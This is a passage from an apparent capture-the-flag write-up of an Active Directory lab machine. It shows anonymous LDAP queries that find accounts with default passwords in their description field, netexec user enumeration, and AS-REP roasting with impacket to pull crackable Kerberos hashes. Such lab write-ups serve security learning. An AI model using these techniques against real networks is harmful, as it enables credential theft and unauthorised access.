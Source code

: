 {: .prompt-info}

If the user hasn't changed the password yet, I have now control over that account, to pinpoint the user with this description I can simply grep for this description or filter it with the `LDAP` query `(description=Please change it: <REDACTED>)`

```bash
ldapsearch -LLL -H ldap://labyrinth.thm.local -D "" -b "DC=thm,DC=local" '(description=Please change it: <REDACTED>)' samaccountname description

dn: CN=IVY_WILLIS,OU=HRE,OU=Tier 1,DC=thm,DC=local
description: Please change it: <REDACTED>
sAMAccountName: IVY_WILLIS

dn: CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
description: Please change it: <REDACTED>
sAMAccountName: SUSANNA_MCKNIGHT
```

I could also have enumerated the `LDAP` service with the `netexec` tool using the command 

```bash
nxc ldap labyrinth.thm.local -u "nonexist" -p "" --users
```

Which will bring us the username as Ill as the description

![NON](file-20250513205232457.png)

Before enumerating any further, I want to show some of other enumerations that I had done and found something but it was not much useful for the solving this machine:

----

# Wandering Off 
## Kerberos

I can enumerate  users with `kerberos pre-authentication` disabled, which enables us to perform an [`AS-REP ROAST`](/theory/protocols/kerberos#as-rep-roast-attack) attack, using `impacket getnpusers` as follows:

```bash
GetNPUsers.py -dc-ip 10.10.152.141 thm.local/
```

![NON](file-20250513205721011.png)


I can request the `AS-REP` for the `DC` by setting the `-request` flag and I can specify that I want it in `hashcat` format, which is our go-to tool for cracking hashes

![NON](file-20250513205755387.png)

> I could have also enumerated the users with `kerberos pre-authentication` disabled using the `kerbrute` tool, using the `userenum` command, which retrieves the hash automatically
{: .prompt-info}

